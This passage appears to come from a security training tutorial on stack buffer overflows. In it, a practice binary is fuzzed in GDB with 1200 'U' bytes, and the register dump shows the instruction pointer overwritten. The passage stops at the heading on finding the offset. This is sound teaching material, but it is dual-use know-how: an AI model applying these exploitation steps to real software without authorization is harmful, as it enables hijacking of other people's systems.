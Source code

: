 We can execute commands in GDB using Python, which serves us directly as input.

#### Segmentation Fault

  Segmentation Fault

```shell-session
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

If we insert 1200 "`U`"s (hex "`55`") as input, we can see from the register information that we have overwritten the `EIP`. As far as we know, the `EIP` points to the next instruction to be executed.

  Segmentation Fault

```shell-session
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```
If we want to imagine the process visually, then the process looks something like this.

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png)

This means that we have to write access to the EIP. This, in turn, allows specifying to which memory address the EIP should jump. However, to manipulate the register, we need an exact number of U's up to the EIP so that the following 4 bytes can be overwritten with our desired memory address.

---

## Determine The Offset

